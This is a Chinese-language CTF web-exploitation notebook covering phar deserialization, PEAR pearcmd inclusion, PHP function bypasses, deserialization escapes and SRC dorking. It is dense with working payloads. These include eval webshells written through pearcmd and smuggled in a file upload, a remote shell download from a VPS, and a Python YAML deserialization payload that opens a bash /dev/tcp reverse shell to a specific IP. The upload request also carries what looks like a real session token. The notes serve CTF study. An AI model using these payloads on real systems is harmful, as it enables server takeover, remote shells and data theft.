phar由data,data签名（20位）,和签名格式（8位）组成。

生成phar文件,同时放入010增加属性数量来绕过weak_up

```php
<?php

class LoveNss
{
    public $ljt;
    public $dky;
    public $cmd;

    public function __construct()
    {
        $this->ljt = "Misc";
        $this->dky = "Re";
        $this->cmd = 'system($_POST[0]);';
    }

}

$o = new LoveNss();
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new LoveNss();
$phar->setMetadata($o); //将自定义的meta-data存入manifest，setMetadata()会将对象进行序列化
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering(); //签名自动计算
#本题要将生成得phar文件放入010修改属性数量来绕过weak_up
#php.ini中phar.readonly改成Off

```

修改签名

```python
from hashlib import sha1
import gzip

with open('D:\\sublime text\\Sublime Text\\source\\反序列化\\phar.png', 'rb') as file:
    f = file.read()
s = f[:-28]  # 获取要签名的数据
h = f[-8:]  # 获取签名类型以及GBMB标识
new_file = s + sha1(s).digest() + h  # 数据 + 签名 + (类型 + GBMB)
f_gzip = gzip.GzipFile("D:\\sublime text\\Sublime Text\\source\\反序列化\\2.png", "wb")
f_gzip.write(new_file)
f_gzip.close()

```

### 调用函数

ctfshow=ctfshow::getFlag  前面类后面方法

ctfshow[0]=ctfshow&ctfshow[1]=getFlag  #POST

```php
class A{
  public $key;
  public function readflag(){
    if($this->key === "\0key\0"){
      readfile('/flag');
    }
  }
}
class B{
  public function  __toString(){
    return ($this->b)();
  }
}

```

```php
class B{
  public $b; // New
  
  // New
  public function __construct() {
    $this->b = [new A(), "readflag"];
  }
  
  public function  __toString(){
    ($this->b)(); // New
    return ""; // New
  }
}

```

通过数组来进行内部函数调用

---

## 🍐 二十五、PEAR 包含

> [!summary] 速览
> - 方法一：`install -R` 远程下载木马到站点目录
> - 方法二：`config-create` 生成配置文件，把配置项写成 PHP 代码（`-d man_dir=<?php eval($_POST[1]);?>`）
> - 方法三：直接写配置文件到 web 目录（`config-create` + 路径 + 文件名）
> - 参数拆解：第一个参数随便写没用，第二个参数才是真正生效的；注意末尾空格与 URL 编码

### 方法一：远程文件下载（下载远程木马到本地）

?file=/usr/local/lib/php/pearcmd.php&lalala+install±R+/var/www/html/+[http](https://so.csdn.net/so/search?q=http&spm=1001.2101.3001.7020)://vps-ip/shell.php

lalala：随便输，第一个参数没用，第二个有用

install：安装远程扩展

-R：指定安装到的目录

/var/www/html/：目录

http://vps-ip/shell.txt：从哪下载

### 方法二：生成配置文件，把配置项传成恶意 PHP 代码

1=/usr/local/lib/php/pearcmd.php&±c+/tmp/ctf.php±d+man_dir=<?php%20eval($_POST[1]);?>±s+

### 方法三：写配置文件方式

GET /?file=/usr/local/lib/php/pearcmd.php&aaaa+config-create+/var/www/html/<?=`$_POST[1]`;?>+shell.php

（最后有一个空格）

POST/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system('cat${IFS}/f*');?>+/var/www/html/test

1=localhost/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php

相同字符强弱相等绕过，采用单个字符url二次编码绕过

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps19.jpg`

---

## 📖 二十六、PHP 函数速查

> [!summary] 速览
> - 32 个常考函数速查，重点：`basename()`、`create_function()`、`end()`、`include()`、`intval()`、`parse_str()`、`parse_url()`、`yaml.load()`
> - 每个函数都记「怎么绕过」而不是「是什么」，例如 `array_search()` 用 `test[]=0`、`is_number()` 用 `0x` 前缀
> - 下方为函数索引表，点名称可直接跳转

**函数索引**（点名称跳转）

| 函数 | 关键点 | 跳转 |
| --- | --- | --- |
| `array_search()` | `test[]=0` 绕过（数组与 0 松散比较） | [[#array_search()]] |
| `assert()` | 字符串参数会被当 PHP 代码执行，可读系统文件 | [[#assert()]] |
| `basename()` | 不可见字符（汉字、？、《、》）能绕过正则又被 basename 忽略 | [[#basename()]] |
| `create_function()` | 匿名函数名是 `\000lambda_N`，闭合 `{}` 就能执行代码 | [[#create_function()]] |
| `call_user_func()` | `ctfshow[0]=ctfshow&ctfshow[1]=getFlag`，前面类后面方法 | [[#call_user_func()]] |
| `end()` | 取数组末元素，多文件上传时可用它绕过后缀检查 | [[#end()]] |
| `Data()（date 格式化字符）` | `d` 天 / `m` 月 / `Y` 年 / `H` 小时 / `i` 分钟 | [[#Data()（date 格式化字符）]] |
| `date() 转义` | 反斜线转义可拼出 `/flag` | [[#date() 转义]] |
| `escapeshellcmd()` | 在 `*` `&` `#` `;` `\` 等特殊字符前插反斜线；单双引号不配对时才转义 | [[#escapeshellcmd()]] |
| `escapeshellarg() + escapeshellcmd()` | 两者叠加可被 `\` 绕过，命令被拼成 `curl 172.17.0.2\ -v -d a=1'` | [[#escapeshellarg() + escapeshellcmd()]] |
| `exit()` | 死亡 exit：配合 filter 链把代码写进目标文件 | [[#exit()]] |
| `file_get_contents()` | 配合伪协议 `data://text/plain,...` 读内容 | [[#file_get_contents()]] |
| `file_put_contents()` | 内容可控时用 `?>` 闭合写马，Payload `?><?=`nl%09/*`` | [[#file_put_contents()]] |
| `$_FILES['file']['type']` | 改 MIME 类型即可绕过 | （见下文） |
| `getip()` | `Client-IP` 请求头可控 | [[#getip()]] |
| `include()` | 伪协议读文件 / PEAR 装马 / session 包含 / 截断与 opcache 缓存 | [[#include()]] |
| `intval()` | `if(intval($a))` 用数组 `a[]` 绕过 | [[#intval()]] |
| `is_number()` | 是数字返回 1；配 `Math.random()` 时用 z3 解 | [[#is_number()]] |
| `pathinfo()` | 返回 `dirname` / `basename` / `extension` / `filename` 四个键 | [[#pathinfo()]] |
| `putenv()` | `[BASH_FUNC_echo%%]=() { cat /f*; }` 注入环境变量绕过 | [[#putenv()]] |
| `parse_str()` | 造成变量覆盖：`_POST[key1]=36d` 等价于用 POST 传 `key1=36d` | [[#parse_str()]] |
| `parse_url()` | `host` 遇 `:` `/` 会截断；配反引号写文件；多重变量覆盖 `host=>user,user=>pass` | [[#parse_url()]] |
| `require_once()` | 软链接层数太多会让 once 的 hash 匹配失效，造成重复包含 | [[#require_once()]] |
| `strpos()` | 伪协议里塞不认识的关键字（如 `woofers/`）可绕过匹配 | [[#strpos()]] |
| `toLowerCase()` | `K`.toLowerCase() == `k` | [[#toLowerCase()]] |
| `toUpperCase()` | `ı` → `I`、`ſ` → `S`，用来绕过限制 | [[#toUpperCase()]] |
| `yaml.load()` | `!!js/function` / `!!python/object/new` 反序列化 RCE | [[#yaml.load()]] |
| `$_REQUEST` | 同时接收 GET 与 POST，且 POST 优先，可用来绕过 | （见下文） |
| `$_SERVER['QUERY_STRING']` | 用 URL 编码绕过 | （见下文） |
| `toUpperCase()（补充）` | 同上：`ı`、`ſ` 转大写得到 `I`、`S` | [[#toUpperCase()（补充）]] |
| `toLowerCase()（补充）` | `K` 转小写得到 `k`（注意这个 K 不是 K） | [[#toLowerCase()（补充）]] |
| `fastcgi_pass` | 用 Gopher 打 fastcgi | [[#fastcgi_pass]] |

### array_search()

test[]=0绕过

### assert()

assert函数能够将字符串参数当作php代码来执行 因此，可以通过assert函数来读取服务器系统文件内容


### basename()

例题一：


会误以为config.php是当前目录

加了过滤


**不可见字符绕过正则的同时而且会被basename忽略掉**

例如：**汉字、？、《、》、；**

(basename漏洞)[https://blog.csdn.net/qq_54929891/article/details/123662382?spm=1001.2101.3001.6650.3&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-3-123662382-blog-125192049.235%5Ev43%5Epc_blog_bottom_relevance_base5&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-3-123662382-blog-125192049.235%5Ev43%5Epc_blog_bottom_relevance_base5&utm_relevant_index=6]

### create_function()

 $nss_shell = create_function($shell,$nss);

shell=){}system('cat /f*');//&nss=123

参数可控：};system(\$_POST[1]);//

匿名函数在使用后名称是\000lambda_1，每次使用都会加1，这样构造d0g3使匿名函数闭合，执行

其他函数，name为\000lambda_+payload⻓度，即可进入执行命令

普通上传会吃掉\000

```python
import  requests

req  =  requests.session()

with  open('1.txt','a+')  as  f:

  for  i  in  range(1,33):

​    str  =  "\000"

​    payload  =  """?d0g3=11111include'"]);}phpinfo();/*&name="""

​    payload  =  payload  +  str+'lambda_30'

​    res=req.get("http://47.108.206.43:36321"+payload)

​    print(res.text,file=f)

```

### call_user_func()

ctfshow=ctfshow::getFlag  前面类后面方法

ctfshow[0]=ctfshow&ctfshow[1]=getFlag  #POST

phpinfo

### end()

https://www.anquanke.com/post/id/164561

有传入参数漏洞

```php
$ext = end(($file));
    if (!in_array($ext,['jpg','png','gif'])){
        die('This file is not allowed!');
    }
    $filename = reset($file).'.' .$file[count($file)-1];
    if(move_uploaded_file($_FILES['file']['tmp_name'],$sandbox.'/'.$filename)){
        echo 'Success!';
        echo 'filepath:' . $sandbox . '/' . $filename;
    }else{
        echo 'Failed!';
    }

```


```php
POST / HTTP/1.1
Host: mao.ctf.homes:32778
Content-Length: 1972
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://mao.ctf.homes:32778
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjneoAU5lmyR3AEAU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mao.ctf.homes:32778/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: GZCTF_Token=CfDJ8KTVQ-0YY1tLhd2VR2LVgdF0X-ydfWhO_vgcXdzEUx8X_Bti64XnOWc5OCx18oE6y0th7Y0vRptWmyYBQWNSnFkPz2cWciyupIXKq8RdpmKZhwehfRVP-4pIpgZjPptbxJsNMLaa16pRcJmStKFgnjh2rRRPA31eii0pi8e87BosCvjRRoIcKsdhxUNhHHbo1txU8dYUGb5uBnM8f3mtcKAAdIOqikn9LA74j2sg35q11_g2ScgVINc5to9FY-8Dx4bCoFkbCGIzGYrR7zjqBh-XRMBcf_7fkzAg-gkBnsZ4sc6RJa5ZECBtZFzmBj7j5Z7JV4vq1IgUf5yMYaUm8lVWOaaUKVe14QERYPIGm0ol35JMsUEuvMNhHASbTA9xIFYg6Xe0FhN9WGpELR4tquRKSXO__xPyrj6rQr7u_fUA7USa0_-sM8eiTn5vH4iUNSEYxcCS9qeprGe4GuHbxO3D5OHJJUlk4TBdnrEE1O7C8IecQnVmOHIs5RVGY1OfOVA3bLncN8ptszACqyDxweLqn0Vttxf747m_dgbUGkfKk2idhQLAh7d0eSpapYzw6n-7qTdYQuRdM7CBFsDw57VI9f9ZUxt78XIlvx0Nt_zNlQFBn6uimX_DNVL-nu8OYkmJBH9HitXqzgD_Ae40afsfoYertlLSzzqUSD4HDK0__hkxbHkZsIVicyHRL4U4J4dIRWLWXiyzzFRtRGP5PrfHDEPPbR4YIlkQvEAEHknX
Connection: close

------WebKitFormBoundaryjneoAU5lmyR3AEAU
Content-Disposition: form-data; name="filename[1]"

php
------WebKitFormBoundaryjneoAU5lmyR3AEAU
Content-Disposition: form-data; name="filename[0]"

png
------WebKitFormBoundaryjneoAU5lmyR3AEAU
Content-Disposition: form-data; name="file"; filename="10.jpg"
Content-Type: image/jpeg

ÿØÿà
<?php eval($_POST['cd']);?>

------WebKitFormBoundaryjneoAU5lmyR3AEAU--

```

### Data()（date 格式化字符）

- d - 代表月中的天 (01 - 31)
- m - 代表月 (01 - 12)
- Y - 代表年 (四位数)
- H - 小时 00-23
- i ——分钟数

### date() 转义

注意date函数可以进行转义 把/f\l\a\g转化为/flag

### escapeshellcmd()

反斜线（\）会在以下字符之前插入： *&#;`|\*?~<>^()[]{}$*, *\x0A* 和 *\xFF*。 *’* 和 *“* 仅在不配对儿的时候被转义。

### escapeshellarg() + escapeshellcmd()

传入的参数是：172.17.0.2' -v -d a=1经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。

样例：' <?= @eval($_POST["pd"]);?> -oG pd.phtml '

### exit()

https://xiaolong22333.top/index.php/archives/114/

### file_get_contents()

-->php伪协议-->data://text/plain,I have a dream-->

### file_put_contents()

<?php$dir = "/path/to/directory/"; // 替换为要保存文件的目录路径$code = "echo 'Hello, World!';"; // 替换为要写入文件的 PHP 代码$fuxkfile = " // additional content"; // 替换为要写入文件的额外内容

file_put_contents($dir . "index.php", "<?php ".$code.$fuxkfile);?>

例题里面的fuckfile为?>闭合

Payload=?><?=`nl%09/*`

### $_FILES['file']['type']

修改mime类型可绕过

```php
 if(!in_array($_FILES['file']['type'],['image/jpeg','image/png','image/gif'])){
        die('This type is not allowed!');
    }

```

### getip()

Client-ip控制

### include()

php伪协议读取-->pear文件包含-->session文件包含

· [伪协议读文件二次URL编码](#wei-xie-yi-du-wen-jian-er-ci-url-bian-ma)

· [打opcache缓存](#da-opcache-huan-cun)

· [包含pearcmd装马](#bao-han-pearcmd-zhuang-ma)

· [靶机可以出网](#ba-ji-ke-yi-chu-wang)

· [靶机不能出网](#ba-ji-bu-neng-chu-wang)

· [绕过包含次数限制](#rao-guo-bao-han-ci-shu-xian-zhi)

· [include2shell](#include2shell)

· [compress.zlib生成临时文件](#compress-zlib-sheng-cheng-lin-shi-wen-jian)

· [包含nginx临时文件](#bao-han-nginx-lin-shi-wen-jian)

（123123)[https://blog.csdn.net/m0_46467017/article/details/126380415]

```php
<?php
	$path=$_GET['path'];
	include($path . '/phpinfo.php');
?>

```

包含自己的就可以

如果php版本小于5.3.4，我们可以尝试使用%00截断，这里php版本为7.3.4，不适用。

还有一种截断方法就是?号截断，在路径后面输入?号，服务器会认为?号后面的内容为GET方法传递的参数，成功读取test.php如下：

### intval()

If(intval($a))-->数组a[]绕过

### is_number()

是数字返回1

Math.random()

```python
#!/usr/bin/python3
import z3,struct,sys
sequence = [0.6199046082820001, 0.6623637813965961, 0.7190181683749095, 0.06169296721449724, 0.915799780594273]
sequence = sequence[::-1]
solver = z3.Solver()
se_state0, se_state1 = z3.BitVecs("se_state0 se_state1", 64)
for i in range(len(sequence)):
    se_s1 = se_state0
    se_s0 = se_state1
    se_state0 = se_s0
    se_s1 ^= se_s1 << 23
    se_s1 ^= z3.LShR(se_s1, 17)
    se_s1 ^= se_s0
    se_s1 ^= z3.LShR(se_s0, 26)
    se_state1 = se_s1
    float_64 = struct.pack("d", sequence[i] + 1)
    u_long_long_64 = struct.unpack("<Q", float_64)[0]
    mantissa = u_long_long_64 & ((1 << 52) - 1)
    solver.add(int(mantissa) == z3.LShR(se_state0, 12))
if solver.check() == z3.sat:
    model = solver.model()
    states = {}
    for state in model.decls():
        states[state.__str__()] = model[state]
    state0 = states["se_state0"].as_long()
    u_long_long_64 = (state0 >> 12) | 0x3FF0000000000000
    float_64 = struct.pack("<Q", u_long_long_64)
    next_sequence = struct.unpack("d", float_64)[0]
    next_sequence -= 1
    print(next_sequence)
```

### pathinfo()

- 你可以通过以下方式访问 `pathinfo()` 返回的关联数组中的不同信息：

  - `$info['dirname']`：返回文件所在目录的路径。
  - `$info['basename']`：返回文件的完整基本名称（包含文件名和扩展名）。
  - `$info['extension']`：返回文件的扩展名。
  - `$info['filename']`：返回文件的名称（不包含扩展名）。

### putenv()


`[BASH_FUNC_echo%25%25]=()%20{%20cat /f*;%20}`

https://cloud.tencent.com/developer/article/2354373

直接连


### parse_str()

parse_str函数造成变量覆盖

GET方法传参_POST[key1]=36d

parse_str()将字符串解析到POST数组中，数组此时就有了一个键值对

此时，效果上相当于以POST方法传参 key1=36d

### parse_url()

parse_url这个函数，这个函数主要就是将一个url链接进行分解，例如http://baidu.com/aaa/bbb

例题一：


例题二：

host遇到:和/会截断


其中host是baidu.com path是/aaa/bbb 注意这里的path是含有/的，host是不能有/的，所以返回根目录用cd

所以例如传入http://`ls`/a.php,分解开就是 echo `ls`> /a.php，会写如到根目录下，不方便访问。

因此要想办法写入到当前目录，这里构造语句将前面提前闭合即可。http://1/1;echo `ls` >t.txt (注意这里用反引号，不用system，因为system是php函数，这里设shell_exec里，用反引号来代表命令替换)assert也可

例题三：多重变量


<details>

<summary>点击展开</summary>


</details>

host=>user,user=>pass,pass=>query以此类推便可以实现变量覆盖了

### require_once()

```text
require_once包含的软链接层数较多时once的hash匹配会直接失效造成重复包含

```

```text
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

```


### strpos()

//匹配到即可 php://filter/read=convert.base64-encode/woofers/resource=flag这里伪协议的协议中都指定了特定的协议键，识别到woofers时不认识会忽略掉，但这道题却能够绕过strpos函数

### toLowerCase()

这个"K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'.

### toUpperCase()

这两个字符的“大写”是I和S。也就是说"ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'。通过这个小特性可以绕过一些限制。

### yaml.load()

`"name" : { toString: !!js/function "function(){ flag = process.mainModule.require('child_process').execSync('cat /fla*').toString(); return flag;}"}`

```text
!!python/object/new:str
    args: []
    state: !!python/tuple
      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/47.99.125.16/3389 <&1\"')"
      - !!python/object/new:staticmethod
        args: []
        state:
          update: !!python/name:eval
          items: !!python/name:list

```

### $_REQUEST

同时接受post和get，但优先接受post可以进行绕过

### $_SERVER['QUERY_STRING']

用url编码绕过

### toUpperCase()（补充）
字符"ı"、"ſ" 经过toUpperCase处理后结果为 "I"、"S"
### toLowerCase()（补充）

字符"K"经过toLowerCase处理后结果为"k"(这个K不是K)

### fastcgi_pass

Gopher打fastcgi

---

## 🔗 二十七、PHP 反序列化

> [!summary] 速览
> - **字符逃逸** 分两类：字符变多（溢出长度看 `";i:1;s:2:"20";}`）与字符变少（用两个变量互相吃）
> - **`__destruct`** 触发；`throw new Exception` 时可用强制 GC 回收（属性数量 1 → 0）
> - **`__wakeup` 绕过**：属性数量从 1 改成 2；或用 `C` 代替 `O`（但只能执行 `__construct` / `__destruct`）
> - **大小写绕过**：变量名/常量名/数组键区分大小写，函数名/方法名/类名/魔术常量/`NULL`/`FALSE`/`TRUE` 不区分

if (!preg_match("/[a-zA-Z0-9~\-_=!\^+\(\)]/", $this->gg2)) {

通过正则可以触发tostring

### 字符逃逸

字符逃逸的本质其实也是闭合，但是它分为两种情况，一是字符变多，二是字符变少

#### 字符增多

溢出多少看";i:1;s:2:"20";}这个长度

#### 字符减少

**要使用两个变量进行控制，第一段进行变少覆盖掉原来的第二段，吃到第二个的hello停止，这样直接开启下一个，而下一个刚好是自己控制的，因为s:54被吃掉所以自由控制后面，**

**那第一个变量就是我们逃逸出来的**

hello";s:4:"sign";s:4:"eval";s:6:"number";s:4:"2000";}

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps20.jpg`

里面包括自己构造随机一个变量

### Destruct 触发

 public function __destruct(){

    global $flag;

    echo $flag;

  }

### 字符过滤绕过：函数名 / 方法名 / 类名不区分大小写

if(preg_match('/ctfshow/', $cs)){

区分大小写的： 变量名、常量名、数组索引（键名key）不区分大小写的：函数名、方法名、类名、魔术常量、NULL、FALSE、TRUE

### 绕过 throw new Exception 强制 GC 回收执行 __destruct()

	#O:4:"test":1:{s:5:"test1";s:2:"aa";}//将此处1改为0即可正常销毁	$str='O:4:"test":0:{s:5:"test1";s:2:"aa";}';

```text
i:1`修改为`i:0

```

### __wakeup 绕过

，把反序列化中的内容数量，从1改成2即可

C代替O能绕过wakeup，但那样的话只能执行construct()函数或者destruct()函数，无法添加任何内容，这次比赛学到了种新方法，就是把正常的反序列化进行一次打包，让最后生成的payload以C开头即可

```php
$token = serialize(['user' => 'user', 'pass' => 'pass']);
echo $token;

```

---

## ⚡ 二十八、FastAPI

> [!summary] 速览
> - 自带交互式文档 `/docs`；有 POST 传参页面，参数 `q` 传入计算式得到结果

发现其自带交互式[API](https://so.csdn.net/so/search?q=API&spm=1001.2101.3001.7020)文档，访问/docs页，有采用POST方式传参的/cccalccc页，参数q传入计算式得到结果。

---

## 🧭 二十九、XPath 注入

> [!summary] 速览
> - **待补充**：本章目前为空，只有标题占位

---

## 🧮 三十、综合例题

> [!summary] 速览
> - **待补充**：本章目前为空，只有标题占位

---

## ❓ 三十一、常见问题

> [!summary] 速览
> - 读文件读不到 → 用 PHP 协议：`file=php://filter/convert.base64-encode/resource=flag.php`
> - MD5 长度扩展攻击（hashpump）：填入现有哈希值、已知字符串、salt 长度、要追加的字符串

1.读取文件读不到？

尝试PHP协议读取

File=php://filter/convert.base64-encode/resource=flag.php

3. MD5拓展长度攻击(hashpump)

Input Signature           #现有哈希值（题目给的MD5）

Input Data             #已知字符串

Input Key Length          #为密文（salt）长度

Input Data to Add          #为补位后自己加的字符串（自定义）

---

## 🏴‍☠️ 三十二、SRC 挖洞之路

> [!summary] 速览
> - 入门：AWVS 安装、thinkphp 漏洞检测（`java -javaagent:rexha.jar -jar rexha.jar`）
> - 查询平台汇总见下方表格；Google 语法：`公司 inurl:php?id=`、`inurl:/admin/login.php`、`inurl:'Product.asp?BigClassName'`

新手入门：

[开挖之路心得入门](https://blog.csdn.net/weixin_50464560/article/details/115361071?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170589371316800192257195%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=170589371316800192257195&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-115361071-null-null.142^v99^pc_search_result_base7&utm_term=%E5%85%AC%E7%9B%8Asrc&spm=1018.2226.3001.4187)

1.[AVWS的安装](https://www.ddosi.org/awvs-15-2/#1%E5%AE%89%E8%A3%85awvs152)

2.thinkphp检测漏洞

java -javaagent:rexha.jar -jar rexha.jar

### 查询平台

| 用途 | 地址 |
| --- | --- |
| ICP 备案 / 子域名查询 | https://beian.miit.gov.cn/#/Integrated/recordQuery |
| whois 域名反查 | https://whois.chinaz.com/ |
| 子域名查询 | https://chaziyu.com 、https://site.ip138.com/xxx.com/domain.htm |
| 站长之家（权重 / 排名） | https://rank.chinaz.com/ |
| 备案查询 + 资产搜索（Hunter） | https://beian.miit.gov.cn/ 、https://hunter.qianxin.com/ |
| IP 地址查询 | https://tool.lu/ip/ 、https://www.ip138.com/ |
| 钟馗之眼（空间测绘） | https://www.zoomeye.hk/ |
| 子域名收集 OneForAll | https://github.com/shmilylty/OneForAll |
| JS 接口发现 JSFinder | https://github.com/Threezh1/JSFinder |
| 旁站查询 | https://www.webscan.cc/ |

### SQL 漏洞

 **google语法：**

         公司inurl:php?id=

         公司inurl:asp?id=

         公司inurl:aspx?id=

         后台：inurl：/admin/login.php

 		inurl:'Product.asp?BigClassName'